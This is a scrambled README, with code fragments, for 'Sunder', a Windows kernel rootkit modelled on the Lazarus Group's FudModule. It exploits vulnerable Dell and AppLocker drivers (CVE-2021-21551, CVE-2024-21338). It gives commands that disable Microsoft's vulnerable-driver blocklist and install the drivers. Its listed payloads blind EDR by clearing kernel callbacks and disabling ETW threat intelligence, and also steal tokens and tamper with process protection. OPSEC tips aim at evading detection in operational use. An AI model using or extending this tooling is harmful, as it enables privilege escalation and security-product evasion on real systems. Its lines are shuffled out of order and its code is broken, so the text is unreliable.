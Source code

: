 	);
	- *Note: Offsets for ACL editing have only been tested against winlogon.exe, and may need updated for other target processes*
	DWORD myPid = GetCurrentProcessId();
	DWORD myProcessId;				// To avoid using GetCurrentProcessId() in post-ex code
	HANDLE hDriver,
	HANDLE vulnDriver;				// For use in cases where IOCTLs must be called for every read/write 
	LPVOID readprimitive;				//	Cast this to _readqword in rootk()
	LPVOID writeprimitive;				//	Cast this to _writeqword in rootk()
	PEXP_OUT rootStruct = new EXP_OUT;
	ULONGLONG KeInsertQueueApc;			// To find set ETWti bit and disable it
	ULONGLONG PsSetCreateProcessNotifyRoutine;	// To clear process callbacks
	ULONGLONG PsSetCreateThreadNotifyRoutine;	// To clear thread callbacks
	ULONGLONG PsSetLoadImageNotifyRoutine;		// To clear DLL (image load) callbacks
	ULONGLONG readwhere
	ULONGLONG systemEprocess;			// To iterate through EPROCESS list
	ULONGLONG writewhat
	ULONGLONG writewhere,
	rootStruct->KeInsertQueueApc			= KeInsertQueueApcAddr;
	rootStruct->PsSetCreateProcessNotifyRoutine	= ProcCallbackAddr;
	rootStruct->PsSetCreateThreadNotifyRoutine	= ThreadCallbackAddr;
	rootStruct->PsSetLoadImageNotifyRoutine		= DllCallbackAddr;
	rootStruct->myProcessId = myPid;
	rootStruct->readprimitive  = (LPVOID)readqword;
	rootStruct->systemEprocess = iterProc;	// Set SYSTEM EPROCESS pointer
	rootStruct->vulnDriver = hDriver;	// Pass vulnerable driver's handle to struct
	rootStruct->writeprimitive = (LPVOID)writeqword;

    	rootk(rootStruct);			// Call rootkit functionality for post-exploitation
![CVE-2024-21338 Exploitation](exploit.PNG)
![PPL editing payload](images/ppl.PNG)
# Set the binPath to the full filepath to dbutil_2_3.sys
# Sunder
## Improvements and Additions
## OPSEC
## References
## Requirements
## Stability
## Updating the Exploit
## Usage
### Adding the Code
### Background Information
### Feature Additions
### Improvements
#include "rktools.h"
*Note: This driver is in Microsoft's block list. Installation is blocked on many systems. Update the driver and kernel exploit to execute on systems that employ driver block lists.*
- ACL Editing - Opens handle to target process despite integrity or PPL protection level
- Clean up driver and service on exit
- Clear DLL callbacks - Clear all DLL image load notification callbacks 
- Clear process callbacks - Clear all process creation notification callbacks
- Clear thread callbacks - Clear all thread creation notification callbacks
- Convert interactive post-ex prompts into commandline arguments
- Create the Kernel driver service from rootkit code
- Disable ETW providers
- Disable ETWti - Disable ETW threat intelligence (kernel-mode hooking)
- Disable minifilter drivers
- Disable object/registry callbacks
- Enable/Disable PPL - Tamper with process PPL protection levels 
- Encrypt or hash plaintext strings
- Include offsets for various Windows OS versions
- Suspend EDR threads 
- Token Escalation - Add permissions to a given process 
- Token Stealing - Steal a token from any process (spawns cmd.exe, but can be modified to spawn any process)
- Windows 10 Pro build 19045
- Windows 11 Enterprise build 22621
- Windows 11 Enterprise build 26100 
//	Set any addresses resolved with GetProcAddress in advance, to avoid BSOD in PreviousMode exploits
// Define read and write primitive functions (hDriver can be NULL in some exploits)
// Define struct passed in from exploit (Add additional parameters if necessary)
Build the exploit in Visual Studio (x64, Release). Execute sunder.exe. You will receive a prompt asking which payload to run. Enter a number to execute a post-exploitation payload. 
EXP_OUT is a struct containing necessary values for successful post-exploitation. This struct allows post-exploitation to avoid making syscalls. Avoiding syscalls is vital as some exploits leave the running process in a sensitive state that will Blue Screen of Death (BSOD) from syscalls (such as when corrupting PreviousMode). 
Finally, call the rootkit. This will open an interactive menu to execute various kernel-mode payloads.
Identify the kernel-mode address of an EPROCESS object (preferably the SYSTEM process). This will enable post-exploitation to iterate through kernel EPROCESS structures.
Include the 'rktools.cpp' and 'rktools.h' files in your C++ exploit project.
Instantiate the EXP_OUT struct (naming 'rootStruct' in this example):
Obtain the process ID (PID) of the current process:
Populate rootStruct with the vulnerable kernel driver's handle. This is only required in certain cases, such as when an IOCTL must be called for every use of read/write primitives.
Read and Write Primitives are vital for this library's post-exploitation features. Executing code in the modern Windows kernel is difficult due to mitigations, and may result in higher chance of BSOD. 'Read primitives' read a value from an arbitrary address. 'Write primitives' write an arbitrary value at an arbitrary address.
Run this exploit from medium integrity or higher. You must be in high integrity to install the vulnerable driver. 
Set read and write primitive function pointers. This library is designed for functions that read/write 64-bit values (QWORDs) from/to 64-bit addresses.
Sunder contains the following payloads ([See the images directory for screenshots](images)):
Sunder's vulnerable driver in this GitHub repository is Dell's dbutil_2_3.sys driver, since it is a simple vulnerability and therefore makes the rootkit-specific code easier to read. This driver **is blocked** by Microsoft. Execute the following commands to allow blocked drivers *(bcdedit command not required on Windows 11)*:
Thanks to [Nero22k's blog](https://nero22k.github.io/posts/windows-applocker-driver-elevation-of-privilege-cve-2024-21338/) for mentioning the ExpProfileDelete function as a useful gadget for arbitrary decrements (utilized in appid.sys exploit).
The EXP_OUT struct is as follows:
The appid.sys exploit (CVE-2024-21338) is highly stable. Post-exploitation functionality uses hardcoded offsets for certain Windows structs; therefore, executing the rootkit on untested OS versions may result in a Blue Screen of Death (BSOD).
The dbutil_2_3.sys exploit (CVE-2021-21551) is highly stable. Post-exploitation functionality uses hardcoded offsets for certain Windows structs; therefore, executing the rootkit on untested OS versions may result in a Blue Screen of Death (BSOD).
The following are ways the rootkit can (and should) be improved for operational use. I will not be updating the public release to include these features.
The following sections describe how to utilize the rootkit with newer kernel exploits.
The rootkit has been tested on the following Windows versions:
The vulnerable [appid.sys](appid.sys) driver must be running on the target. The Applocker service MUST NOT be running in order to start the vulnerable driver service. If Applocker is running, stop the service and reboot the system. Download the vulnerable version of appid.sys from this repository, then install it:
The vulnerable [dbutil_2_3.sys](dbutil_2_3.sys) driver must be running on the target. Download it from this repository, then install it:
This exploit will likely get detected from how it steals tokens. Improving the token stealing code, or removing the token stealing code and executing from a process already running as NT AUTHORITY\LOCAL SERVICE, is recommended to evade detection. 
This library uses the following prototypes for read and write primitive functions:
This rootkit is designed to work with various kernel exploits. This allows you to change the vulnerable driver utilized to gain kernel read and write primitives. Updating the vulnerable driver is necessary to evade Microsoft's [blocked driver list](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/app-control-for-business/design/microsoft-recommended-driver-block-rules).
This version of sunder is packaged with CVE-2024-21338, a kernel callback overwrite exploit in Microsoft's Applocker driver.
Understanding the following structs and function prototypes is necesssary for proper usage of this library.
Use your exploit's read primitive to obtain values of the following kernel-mode functions. This step is OPTIONAL, but necessary to leverage full post-exploitation functionality. *See [this code](Sunder/Sunder/Sunder.cpp) from lines 149-201 for an example of how to find the necessary kernel-mode functions.*
Windows rootkit modeled after Lazarus Group's [FudModule rootkit](https://decoded.avast.io/janvojtesek/lazarus-and-the-fudmodule-rootkit-beyond-byovd-with-an-admin-to-kernel-zero-day/). 
Windows rootkit modeled after Lazarus Group's [FudModule rootkit](https://decoded.avast.io/janvojtesek/lazarus-and-the-fudmodule-rootkit-beyond-byovd-with-an-admin-to-kernel-zero-day/). Reference [this version of Sunder](Sunder-appid_exploit) for an example of the appid.sys driver exploit, which was utilized by Lazarus Group FudModule rootkit.
```
``` 
bcdedit /debug on	
powershell -c Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\CI\Config\ -Name VulnerableDriverBlocklistEnable 0
sc create appidserv binPath= C:\appid.sys type= kernel
sc create dellserv binPath= C:\dbutil_2_3.sys type= kernel
sc start appidserv
sc start dellserv
shutdown -r
typedef ULONGLONG(__fastcall* _readqword)(
typedef struct _EXP_OUT
typedef void(__fastcall* _writeqword)(
{
} EXP_OUT, * PEXP_OUT;
